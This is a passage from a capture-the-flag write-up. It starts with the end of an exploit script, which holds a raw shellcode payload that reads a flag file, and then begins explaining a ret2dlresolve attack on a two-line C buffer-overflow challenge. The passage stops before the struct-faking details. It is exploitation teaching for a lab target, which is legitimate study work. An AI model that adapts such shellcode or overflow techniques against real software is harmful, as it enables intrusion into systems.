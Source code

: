 ```python
payload = b"\x64\x4C\x8B\x04\x25\x00\x00\x00\x00\x4C\x89\xC4\x49\x81\xC0\xC0\x28\x00\x00\x48\xC7\xC7\x00\x03\x37\x13\x48\xC7\xC0\x02\x00\x00\x00\x49\x8D\x98\xB6\x0C\x09\x00\xFF\xD3\x48\xC7\xC7\x01\x00\x00\x00\x48\x89\xC6\x49\xC7\xC2\x00\x01\x00\x00\x48\xC7\xC0\x28\x00\x00\x00\x49\x8D\x98\xB6\x0C\x09\x00\xFF\xD3"

payload += b"A" * (0x300 - len(payload))
payload += b"./flag.txt\x00"
p.sendline(payload)

p.interactive() # grey{ret_to_thread_local_storage_via_fs_register}
```

# Overly Simplified Pwn Challenge

> Writing challenges are too hard... so I wrote a program in 2 lines of code for you to pwn :/ I can even tell you that
> there is an obvious buffer overflow there, should be simple right?
>
> Author: Elma \
> Solves: 2

The challenge source is literally 2 lines long:

```c
#include <stdio.h>
int main(){char buf[1];return fgets(buf, 0x80, stdin);}
```

And the checksec is as follows:

```
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

Given that there's no pie and we don't have libc leak, we can usually do 2 things:

- SROP
- ret2dlresolve

However, we have no syscall gadget here, so SROP is out of the question. Partial RELRO is also a good sign as we can
fake resolve libc functions (I don't think ret2dlresolve is possible on full RELRO?).

## ret2dlresolve

In ret2dlresolve, we need to fake 3 structs: `STRTAB`, `SYMTAB`, and `JMPREL`. These 3 structs are placed at an offset
from corresponding sections, and they are identified through indexes from the start of the section. The addresses of
these sections can be found using `readelf`:
